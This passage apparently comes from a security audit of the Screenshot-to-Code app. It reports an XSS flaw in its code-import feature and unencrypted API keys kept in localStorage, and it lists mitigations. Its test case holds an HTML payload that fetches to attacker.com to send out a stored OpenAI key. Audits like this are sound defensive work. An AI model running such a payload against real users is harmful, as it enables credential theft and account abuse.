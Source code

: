 The code is then likely to be rendered or executed in the frontend, as indicated by the "isImportedFromCode" parameter in the `create_prompt` function.

**Security Test Case:**
1. Create a payload containing malicious JavaScript:
```html
<html>
<body onload="alert(document.cookie)">
<script>
fetch('https://attacker.com/steal?data=' + localStorage.getItem('openai_api_key'))
</script>
<div>Legitimate-looking content</div>
</body>
</html>
```
2. Save the payload as a file or put it in a code sharing site
3. Open Screenshot-to-Code application
4. Use the "Import from code" feature to import the malicious code
5. Verify that the JavaScript executes, displaying cookies and attempting to exfiltrate API keys

## 2. Insecure Storage of API Keys in Local Storage

**Description:**
The application stores sensitive API keys (OpenAI, Anthropic, etc.) in the browser's localStorage without encryption, making them accessible to any JavaScript code running on the page, including potential XSS attacks.

**Steps to trigger vulnerability:**
1. A user enters their API keys in the application's settings
2. The application stores these keys in localStorage
3. An attacker who has achieved XSS through the code import vulnerability or other means can access these keys with a simple JavaScript command: `localStorage.getItem('openai_api_key')`
4. The attacker can then use these keys to make API calls at the expense of the victim

**Impact:**
- Financial loss: Attackers can use the victim's API credits to run expensive AI models
- Data breach: Attackers can access any data the victim has processed with these AI services
- API abuse: Attackers can perform unauthorized operations using the victim's identity

**Vulnerability Rank:** Critical

**Currently Implemented Mitigations:**
None. There's no indication of any encryption or secure storage mechanism for API keys in the codebase. The code in `generate_code.py` confirms that API keys are passed from the client side using the settings dialog, reinforcing that these keys are stored client-side.

**Missing Mitigations:**
1. Encrypt sensitive keys before storing in localStorage
2. Use secure HTTP-only cookies instead of localStorage for sensitive data
3. Implement session timeouts for stored credentials
4. Implement a proxy service that handles API calls without exposing keys to the client

**Preconditions:**
- The user must have entered API keys into the application
- The attacker must have a way to execute JavaScript in the context of the application (via XSS)
